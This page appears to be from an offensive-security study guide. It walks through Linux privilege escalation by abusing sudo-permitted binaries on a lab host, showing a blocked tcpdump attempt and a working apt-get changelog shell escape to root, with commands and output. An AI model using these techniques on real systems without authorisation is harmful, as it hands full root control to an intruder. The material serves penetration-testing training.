

---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# Abusing Sudo Binaries

As described in the [manual enumeration](../enumeration/manual-enumeration.md#sudo-permissions) section, `sudo` permissions can be given on a per-binary basis. Thus allowing non-privileged users to run certain commands with elevated privileges. [GTFOBins](https://gtfobins.github.io/) contains many payloads that can turn these temporary permissions into extended privilege escalation.

Consider the case where non-privileged (and compromised) user `joe` has the following `sudo` permissions:

```shell-session
joe@debian-privesc:~$ sudo -l
[sudo] password for joe: 
Matching Defaults entries for joe on debian-privesc:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User joe may run the following commands on debian-privesc:
    (ALL) /usr/bin/crontab -l, /usr/sbin/tcpdump, /usr/bin/apt-get
```

Obviously `crontab -l` is out. However the is a potential exploit for `tcpdump`. Unfortunately as described in the [AppArmor section](../defenses/apparmor.md), this path is blocked by AppArmor:


```shell-session
joe@debian-privesc:~$ COMMAND='id'

joe@debian-privesc:~$ TF=$(mktemp)

joe@debian-privesc:~$ echo "$COMMAND" > $TF

joe@debian-privesc:~$ chmod +x $TF

joe@debian-privesc:~$ sudo tcpdump -ln -i lo -w /dev/null -W 1 -G 1 -z $TF -Z root
[sudo] password for joe: 
dropped privs to root
tcpdump: listening on lo, link-type EN10MB (Ethernet), capture size 262144 bytes
Maximum file limit reached: 1
1 packet captured
38 packets received by filter
0 packets dropped by kernel
compress_savefile: execlp(/tmp/tmp.v6dh1rsrnT, /dev/null) failed: Permission denied

joe@debian-privesc:~$ cat /var/log/syslog | grep tcpdump
Oct 29 14:24:15 debian-privesc kernel: [ 3205.049751] audit: type=1400 audit(1698607455.628:24): apparmor="DENIED" operation="exec" profile="/usr/sbin/tcpdump" name="/tmp/tmp.v6dh1rsrnT" pid=7100 comm="tcpdump" requested_mask="x" denied_mask="x" fsuid=0 ouid=1000
```


Unfortunately, GTFOBins is not infallible. This means it is time to proceed to the final elevated binary, `apt-get`.

### Abusing `apt-get`

Fortunately there is again a [payload](https://gtfobins.github.io/gtfobins/apt-get/#sudo) for the `apt-get` command and `sudo`:

<figure><figcaption><p>apt-get's GTFOBins page</p></figcaption></figure>

```bash
sudo apt-get changelog apt
!/bin/sh
```

* The first line opens a screen that allows the user to run a command
* The second line is the command used which results in opening an elevated shell

When run, this does appear to work on the target machine:

```shell-session
joe@debian-privesc:~$ sudo apt-get changelog apt
Get:1 store: apt 1.8.2.3 Changelog
Fetched 459 kB in 0s (39.6 MB/s)

# whoami
root

# id
uid=0(root) gid=0(root) groups=0(root)
```

Privileges were successfully escalated via this method.
